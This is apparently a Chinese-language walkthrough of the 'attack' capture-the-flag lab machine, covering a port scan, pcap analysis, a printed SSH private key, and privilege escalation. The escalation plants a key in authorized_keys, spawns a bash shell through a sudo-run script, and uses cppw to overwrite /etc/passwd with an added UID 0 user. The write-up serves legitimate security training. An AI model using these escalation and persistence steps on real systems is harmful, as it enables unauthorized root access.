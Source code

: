 # attack

使用`rustscan`扫描

![](./img/attack-1.png)

发现打开了`21`、`22`、`80`端口,访问网页写着

> I did a capture with wireshark. The name of the file is "capture" but i dont remember the extension :(

## 流量分析

尝试访问`capture.pcapng`和`capture.pcap`，发现是`capture.pcap`，下载查看

`ftp`发现了用户名、密码和一个`mysecret.png`文件

![](./img/attack-3.png)



`web`访问`filexxx.zip`，解压给了个私钥

```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAQEAwvMkIShyNj4nrH/pkn0yW9emR7T8RjG8Om9slsCn/4cWKRQ4uxXb
GyECq1y9kApTSIZr7HQynFa0K5yoXw+GKBlexkaoyqLuhIfL9pMpjbzLQUSn3o3RMJstP0
u2LxlVnsM6FeDdx4csRo6soxoohxe3a0FlNlBosapIo2Dhd+CSR0HUr1Shd46aMfmODABg
+Fw91ob5LQSwnahrVpBmnkmnuHzn4AhuYbn+kjOt/LbO0K9wWbfrgWS9rM+wLiiolv48zD
iIzge63KLpKEFRoQ//d+9nZA5gtfmr9mRsrxVt6LffcYDDjs4T+UPCByGZfDp8k4DM7PW4
vjtFxsmggQAAA8iBo5LUgaOS1AAAAAdzc2gtcnNhAAABAQDC8yQhKHI2Piesf+mSfTJb16
ZHtPxGMbw6b2yWwKf/hxYpFDi7FdsbIQKrXL2QClNIhmvsdDKcVrQrnKhfD4YoGV7GRqjK
ou6Eh8v2kymNvMtBRKfejdEwmy0/S7YvGVWewzoV4N3HhyxGjqyjGiiHF7drQWU2UGixqk
ijYOF34JJHQdSvVKF3jpox+Y4MAGD4XD3WhvktBLCdqGtWkGaeSae4fOfgCG5huf6SM638
ts7Qr3BZt+uBZL2sz7AuKKiW/jzMOIjOB7rcoukoQVGhD/9372dkDmC1+av2ZGyvFW3ot9
9xgMOOzhP5Q8IHIZl8OnyTgMzs9bi+O0XGyaCBAAAAAwEAAQAAAQEAg9n4tKhrXr55DNVS
f25HshBPeS4ydbNLsGYOFoPk3BFcbporqHUmxNl1ubq2xwYEwAeSVNFeLZkCsIB67BhOzy
4hiI7fuHWsRlymGXX8480t1039D6vxMSOy3Z1ycbZ7zy4RShzVQw7sZig3IPUfNgdXWaZY
Mvz9YjRefomW1QEQ+LN4VZYltBDf75FGYFd6Lm/kLid+nEdkTmaC3yir63X4ctiBwDYNrn
24hxwiMm0+/6sDKu1Wx5CdmE1bguZUfhi45kyYk4ImcUCyytUtKo81FpmpYWxaU0dsey3z
DdZvhV5eeglk9r6KiZWAAflYPlaTm80J+9EP7rKc3fhGlQAAAIEAtLQ6wkfs94qprlRmC3
yzbSNmPmNT/lfrsrZLQHCYdBnD/1r2H0CMWl1pth+chRl9W1YAzkbKhHwm1YL4q+25Jduu
5228vid0jwK+0U0HZlNM0jJaOueLsqx339/FEe7aoeY0luTpSnjgRcVuioUMSUz6T282/8
/YahP2g+aL5HYAAACBAPuknKVKVgFzGwohXfKAL5ovzP1RqKhke7bBPJUvVc9maUJCeq5V
+bHQY8Dma2RNGD0bjNjMesGA4UlzcNPb8IhkrJAb5zflP3Kyzd5uxWKMuxEo3i/at5bvtT
8n79izUS+0GLVjtVvHWQMfqpGB8TGKLcNgENu6BXCYynsg+qaPAAAAgQDGUz2nJk3o5cBN
VnSuUCNOQStcXkoxLlWa6x1+6/IedoBMRmVCjPykewv8IxzFOJ+v6f4dYG3zm9OYHpQDio
90hcG7M9c6X2PaBB989J006avt+xNF7D2XTegoG+KkDVycWQIWmvjey2St1W8ch0iXuPK6
ZmoAGz9E8TWbR35P7wAAAAx0ZXN0ZUBhdHRhY2sBAgMEBQ==
-----END OPENSSH PRIVATE KEY-----
```

流量包导出的`filexxx.zip`给了张二维码

![](./img/attack-4.png)

扫描发现是

![](./img/attack-5.png)

```
http://localhost/jackobattack.txt
```

访问网页，看来是`jackob`的`ssh`私钥，尝试登录

![](./img/attack-6.png)

## 写私钥提权

```bash
ssh -i id_rsa jackob@192.168.1.144
```

![](./img/attack-7.png)

```bash
$ cat note.txt
I need to launch the script to start the attack planned by kratos.
```

意思是可以用`kratos`运行该脚本

```bash
jackob@attack:~$ cat attack.sh
#!/bin/bash
echo "[+] LAUNCHING ATTACK"
the9command="/usr/bin/id"
the2command="/usr/bin/ls"
the4command="/usr/bin/echo"
the3command="/usr/bin/uptime"
theOcommand="/usr/bin/echo"
the1command="/usr/bin/id"
the6Command="/usr/bin/echo"
the7command="/usr/bin/w"
the8command="/usr/bin/echo"
the5command="/usr/bin/id"

echo "[+] NEXT PHASE"
the10command="/usr/bin/id"
the20command="/usr/bin/echo"
the30command="/usr/bin/echo"
the40command="/usr/bin/w"
the50command="/usr/bin/echo"
the60command="/usr/bin/date"
the70command="/usr/bin/uptime"
the85command="/usr/bin/echo"

echo "[+] FINAL PHASE"
$the1command >> /tmp/a
$the2command >> /tmp/a
$the3command >> /tmp/b
$the4command >> /tmp/b
$the5command >> /tmp/c
$the6command >> /tmp/c
$the7command >> /tmp/d
$the8command >> /tmp/d
$the9command >> /tmp/f
$the0command >> /tmp/f
$the10command >> /tmp/g
$the20command >> /tmp/g
$the30command >> /tmp/h
$the40command >> /tmp/h
$the50command >> /tmp/r
$the60command > /tmp/r
$the70command > /tmp/w
$the85command > /tmp/z

echo "[+] DONE"
```

提权方式很多，提供两个思路

### 方式一：修改公钥

修改`jackob`的公钥命令到该文件

```bash
$ mv attack.sh attack.sh.bak
$ vi attack.sh
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC3U7ZkA0vcE+QvfZGpaTc40YNiTDnwbIPauorRENFuUBOCj735WnLClq8Zu80YXVqmH0x/5Oafpv3nJDoaIBoNSu2JElctHX/bsVpyyWTyCtb7+4EVWi7i8EsHp7Fj/6ZuwFnHLnhGIqnZZVnego6BDfJsRZf0FUanR1F2nXoYmbINVwAxH6Dh1z8nQR7n1fyEqVXowKYaRNnX8Gf8ILPDO23cepNUIr/zpxB3MYZh40NJQpRhgTnVibTQ8tvzKEkF6UmFG52j7n10st0ZzJAyIINsGc7tv9FuFEdSeO65kdpWaQAazgUHBqEPNrVBgynUWzWyNsOHQj62ubhVyLap jackob@attack" >> /home/kratos/.ssh/authorized_keys
```

![](./img/attack-9.png)

### 方式二：shell

直接放`/usr/bin/bash`

```bash
$ mv attack.sh attack.sh.bak
$ vi attack.sh
/usr/bin/bash
$ chmod +x attack.sh
$ sudo -u kratos /home/jackob/attack.sh
```

![](./img/attack-8.png)

## cppw提权

现在已经提权到`kratos`

```bash
kratos@attack:~$ find / -perm -4000 2>/dev/null
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/su
/usr/bin/passwd
/usr/bin/umount
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/mount
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
```

没有可利用的，使用

```bash
$ sudo -l
Matching Defaults entries for kratos on attack:
    !env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User kratos may run the following commands on attack:
    (root) NOPASSWD: /usr/sbin/cppw
```

使用`cppw`提权,`cppw` 的作用是会覆盖 `/etc/passwd` 文件，因此请创建一个包含用户名、密码散列、`user_id`、`group_id` 和家目录的格式化文件。我复制了我的`root`用户密码散列并将其保存到文本文件中，然后执行了`cppw`二进制文件，这样它就将其保存到了`/etc/passwd`中，并进行了覆盖。

`/etc/passwd`里面的`root`是

```
root:x:0:0:root:/root:/bin/bash
```

其中`x`表示这个密码没有存储在`/etc/passwd`里面 存储在`/etc/shadow`里面

我们将`x`替换成我们已知的加密密码即可

但这个密码的加密方式应该是需要相同的，可以借用`openssl`生成

```bash
$ openssl passwd 111111
$1$xjlKD2QS$Rq/0wDMqYQjfAx9kFHjb91
```

在原有的`passwd`文件增加内容

```bash
$ cat /etc/passwd > passwd_file
# 追加root密码
$ echo 'cc:$1$xjlKD2QS$Rq/0wDMqYQjfAx9kFHjb91:0:0:xx:/root:/bin/bash' >> passwd_file
# 将passwd_file覆盖/etc/passwd
$ sudo /usr/sbin/cppw passwd_file
# 切换到cc用户，获得`root`权限
$ su - cc
Password: 11111
root@attack:~# whoami
root
```

